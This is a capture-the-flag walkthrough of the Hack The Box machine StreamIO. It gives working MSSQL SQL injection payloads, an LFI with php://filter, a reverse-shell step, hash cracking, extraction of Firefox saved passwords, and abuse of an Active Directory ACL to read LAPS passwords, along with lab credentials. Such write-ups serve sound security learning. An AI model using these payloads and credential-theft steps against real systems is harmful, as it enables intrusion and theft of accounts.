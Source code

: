 ![StreamIO](https://labs.hackthebox.com/storage/avatars/21240942d301a96e80574353a96b9003.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [JDgodd](https://app.hackthebox.com/users/481778) & [nikk37](https://app.hackthebox.com/users/247264)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---






- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.158 -oG scan
	/opt/extractports scan
	nmap -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49704 -sCV -Pn 10.10.11.158 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/a679fee6-690b-4267-b4c8-61c7ca2ec1af)

- I found the domain `streamIO.htb` and `watch.streamIO.htb` add it to the file in the `hosts` file
- I list the mails servers and find a new domain `dc.streamIO.htb` and add it to the `hosts` file

	```python
	dig @10.10.11.158 streamIO.htb mx
	```
	
	![image](https://github.com/user-attachments/assets/a678d8c0-2c6b-481f-a9d4-fc24c3ea7e13)

- I enumerate system users using kerbrute and a dictionary with common user names. I find Administrator and martin. I'm trying to get the password of these users but I can't get it.

	```python
	kerbrute userenum --dc 10.10.11.158 -d streamIO.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
	```
	
  ![image](https://github.com/user-attachments/assets/5dd30f95-91b4-4bf7-8ae1-dbf5a7501cc3)

- I continue to look at web pages using the different domains I have found previously.
	
	![image](https://github.com/user-attachments/assets/4896e8c7-31f9-411c-b543-643319cbf475)

- After searching through the web pages, nothing relevant can be found. I decide to list files that have a number of typical extensions and I find search.php

	```python
	ffuf -c -t 200 -w /usr/share/wordlists/dirb/common.txt  -u https://watch.streamio.htb/FUZZ -e .txt,.php,.js,.html,.py,.sh,.asp,.aspx,.bak
	```

 - This page shows a list of movies and allows us to perform searches. I try to do a search by putting a single quotation mark and I notice that no movie is returned. I interpret that it can have caused an internal error that I cannot see but that can be susceptible to code injections.
 
	![image](https://github.com/user-attachments/assets/80839cc8-ff58-4ab3-abbd-407780d1a34c)

-  Being against a MS SQL I decide to consult how many columns the query is composed of and I notice that it is composed of 6 and the content of columns 2 and 3 I can see them.

```python
10' union select 1,2,3,4,5,6-- -
```

- Knowing I am doing different queries to get information about the structure of the DDBB and its content.

```python
#DDBB name
10' union select 1,schema_name,3,4,5,6 from information_schema.schemata-- -
#Table names
10' union select 1,table_name,3,4,5,6 from information_schema.tables-- -
#Column names 
10' union select 1,concat(column_name,',',table_name),3,4,5,6 from information_schema.columns-- -
#content of table users 
10' union select 1,concat(username,',',password),3,4,5,6 from users-- -
```

- I get to list the content of the users table containing the username and password columns. It seems that the password is encrypted in ms5. I try to break the passwords and succeed for a few of them.
	
	```python
	john -w=/usr/share/wordlists/rockyou.txt credentialsMD5 --format=Raw-MD5
	```
	
![image](https://github.com/user-attachments/assets/ddc4914b-0ff6-4fa2-ab44-58f0d885f9df)

- I try the credentials I found in the streamIO.htb login panel and I get access with the user yoshihide. I can see the admin panel but I can't find anything relevant.
- I notice that when I move through the parts of the admin panel in the url only one parameter changes. I decide to brute force that part to look for new available pages. find a new page when I put "debug".

	```python
	ffuf -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=61ajbbchdgvc3oobbqh0ahsi3t" -u 'https://streamio.htb/admin/index.php?FUZZ=' | grep -v 'tatus: 200, Size: 1678, Words: 85,'
	```

- I try to read internal system files (LFI) and I manage to read files.
	
	```python
	https://streamio.htb/admin/index.php?debug=c:\Windows\System32\Drivers\etc\hosts
	```

- Since I can read files, I decide to apply a wrapper so that the pages are not interpreted and I can see their content.

```python
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=..\index.php
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=..\about_include.php
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=master.php
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=index.php
```

- Inside the index.php file I find some credentials to connect to the DDBB. I realize that in this case a different database is used than the one I was using in the previous part so when I have access it would be interesting to consult these new tables.

	![image](https://github.com/user-attachments/assets/3e122d95-ecac-4fad-91c5-b7fc8256fde2)

- I set up a server to share a richero containing a revershell by php. Thanks to this file I manage to get a [revershell](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

	![image](https://github.com/user-attachments/assets/42045c1d-b234-48d3-baf1-0954e63e96ab)

- With this reverse shell I am the user yoshihide and I can read the first flag.
- Once inside the system, we can consult the contents of the database that I have found and that I could not consult before. 

	```python
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "SELECT name, database_id from sys.databases;exit;"
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "use STREAMIO; SELECT name from sys.tables;"
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "select * from STREAMIO.dbo.users;"
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "select * from streamio_backup.dbo.users;"
	```

- I find in the other database the same tables but they contain different users. I try to get the passwords in clear text and I get the one for user nikk37.

	![image](https://github.com/user-attachments/assets/62a60a60-ef9a-456d-b6dc-385401906216)

- I connect to the system via WINRM with the user nikk37 and I manage to read the first flag.

```python
evil-winrm -i 10.10.11.158 -u 'nikk37' -p 'get_XXXXXXXXXXXXXcom'
```

- I look for potential ways to escalate privileges. For that I use winpeas to enumerate the system. It shows me the existence of a .db file in a firefox path. This points to obtain the credentials stored in the browser.
- In order to do this I download the key4.db file from firefox along with loggins.json. With these two files and using firepwd I can extract the stored credentials.

	```python
	python firepwd.py -d ./
	````
	
	![image](https://github.com/user-attachments/assets/fb044db7-d542-463c-b18e-3feeb6a80df5)

- I validate the credentials and I see that the user JDgodd's credentials are correct and I can connect to the system.
- I keep listing potential routes with bloodhound and find one. This user has “WriteOwner” permissions on the “Core Staff” group, so we can be included in the group.
- This group has “ReadLAPSPASSWORD” permissions. It allows to read the Local Administrator Solution password. This password is stored in the attribute “ms-MCS-AdmPwd”.

	![image](https://github.com/user-attachments/assets/591b80c5-b56f-4d0e-9913-0055e26b857a)

	```python
	Import-module .\PowerView.ps1
	
	$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
	$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword) 
	 
	Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity 'JDgodd'
	Add-DomainGroupMember -Identity 'Core Staff' -Members 'JDgodd' -Credential $Cred -Verbose
	
	ldapsearch -x -H ldap://10.10.11.158 -D  "JDgodd@streamio.htb" -w JDg0dd1s@d0p3cr3@t0r -b "dc=streamio,dc=htb" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
	```

- I get the password of the administrator user, I connect via WINRM to the system and I manage to read the second flag

	![image](https://github.com/user-attachments/assets/003463c4-24ff-4334-8054-0368ff7cfc0f)
